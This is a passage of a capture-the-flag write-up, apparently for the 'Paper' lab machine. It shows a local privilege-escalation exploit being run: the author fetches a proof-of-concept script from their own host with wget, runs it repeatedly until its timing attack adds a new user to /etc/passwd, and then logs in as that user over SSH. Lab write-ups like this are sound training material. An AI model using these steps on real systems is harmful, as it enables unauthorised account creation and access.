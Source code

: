 On the target system:

`wget http://<MY IP>/poc.sh`

`chmod +x poc.sh`

Looking at the options back on the github page shows:

![](images/paper14.png)

I run the program with:

`./poc.sh -u=test -p=1111`

And get:

```
[x] Insertion of Username failed!
[!] Aborting Execution!
[!] Usually multiple attempts are required to get the timing right. Try running the exploit again.
[!] If the exploit doesn't work after several tries, then you may have to exploit this manually.
```

So it didn't work but it tells you this is a timing based attack and that you should run it multiple times until it does work. I run it a few more times and get a successful run not long after:

![](images/paper15.png)

I verify the user has been created by looking in **/etc/passwd**:

`tail -1 /etc/passwd`

```
test:x:1005:1005:test:/home/test:/bin/bash
```

The script tells you to use `sudo - test` but that will not work in this case because **dwight** does not have sudo privileges on this system.


Since the user does show as created I will try to **ssh** over and login with the newly created user.

**Note:** One thing I noticed here is that even though the script would say successful sometimes the password would not work when I attempded to login via ssh even though the user was created. Run it several more times trying to login after each attempt and eventually it will work.

`ssh test@10.129.108.172`

```
Activate the web console with: systemctl enable --now cockpit.socket

Last failed login: Tue Feb  8 13:47:40 EST 2022 from 10.10.16.32 on ssh:notty
There were 5 failed login attempts since the last successful login.
[test@paper ~]$ 
```

Running `whoami`:

```
[test@paper ~]$ whoami
test
```
